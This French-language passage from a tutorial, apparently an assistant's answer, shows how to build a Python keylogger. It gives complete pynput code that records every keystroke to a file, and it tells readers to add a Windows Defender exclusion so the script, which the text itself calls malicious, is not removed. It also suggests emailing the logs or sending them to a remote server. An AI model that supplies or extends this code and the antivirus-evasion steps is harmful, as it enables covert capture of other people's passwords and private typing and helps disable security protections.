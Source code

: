 #### 4.4 Exécution et Tests

1. Exécutez le script :
```bash
python main.py
```
2. Ouvrez un éditeur de texte comme Notepad et tapez quelques caractères.
3. Fermez l'éditeur de texte et arrêtez le script en appuyant sur `Ctrl+C` dans le terminal.

Vous devriez voir un fichier `log.txt` contenant les touches que vous avez tapées.

### Résolution des problèmes avec Windows Defender

Windows Defender peut détecter et supprimer le script de keylogger car il est considéré comme malveillant. Pour éviter cela, vous pouvez ajouter une exclusion dans Windows Defender :

1. Ouvrez Windows Defender.
2. Allez dans "Manage settings".
3. Faites défiler jusqu'à "Exclusions" et ajoutez une exclusion pour le dossier de votre projet.

### Personnalisation du Keylogger

Vous pouvez améliorer le keylogger en ajoutant des fonctionnalités supplémentaires :

- **Formatage des touches** : Ajoutez des sauts de ligne pour chaque touche pressée pour rendre le fichier `log.txt` plus lisible.
- **Gestion des touches spéciales** : Convertissez les touches spéciales (comme `Backspace`, `Enter`, etc.) en chaînes de caractères plus lisibles.

#### Exemple de Keylogger amélioré

```python
from pynput.keyboard import Listener

def on_press(key):
    try:
        with open('log.txt', 'a') as f:
            f.write(f'{key.char}\n')
    except AttributeError:
        with open('log.txt', 'a') as f:
            f.write(f'{key}\n')

with Listener(on_press=on_press) as listener:
    listener.join()
```

### Conclusion

Ce tutoriel vous a montré comment créer un keylogger de base en Python. Nous avons couvert les étapes pour configurer l'environnement, écrire le script de keylogger, et gérer les exclusions dans Windows Defender. Les prochaines étapes pourraient inclure l'ajout de fonctionnalités avancées, comme l'envoi des logs par email ou leur stockage sur un serveur distant. N'hésitez pas à demander des précisions ou des ajouts spécifiques !


